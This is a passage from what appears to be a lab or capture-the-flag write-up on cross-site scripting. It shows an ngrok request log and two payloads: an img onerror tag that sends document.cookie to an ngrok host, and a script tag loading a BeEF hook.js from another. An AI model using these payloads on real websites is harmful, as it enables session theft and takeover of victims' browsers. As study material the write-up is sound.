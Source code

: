 
```bash                      
HTTP Requests                                                                                                                                                           
-------------                                                                                                                                                           
                                                                                                                                                                        
GET /                          200 OK                                                                                                                                   
GET /                          200 OK                                                                                                                                   
GET /                          200 OK                                                                                                                                   
GET /                          200 OK                                                                                                                                   
GET /                          200 OK                                                                                                                                   
GET /                          200 OK                                                                                                                                   
GET /                          200 OK                                                                                                                                   
GET /                          200 OK                                                                                                                                   
GET /                          200 OK                                                                                                                                   
GET /                          200 OK        
```

Trying again with slightly different payload

```html
<img src=x onerror=this.src='http://a1e5-116-14-150-8.ngrok.io/test?'+document.cookie;>
```

![](Pasted%20image%2020220515111456.png)


I tried changing the payload the the BeeF-XSS Payload

```html
<script src="http://f75f-116-14-150-8.ngrok.io/hook.js"></script>
```
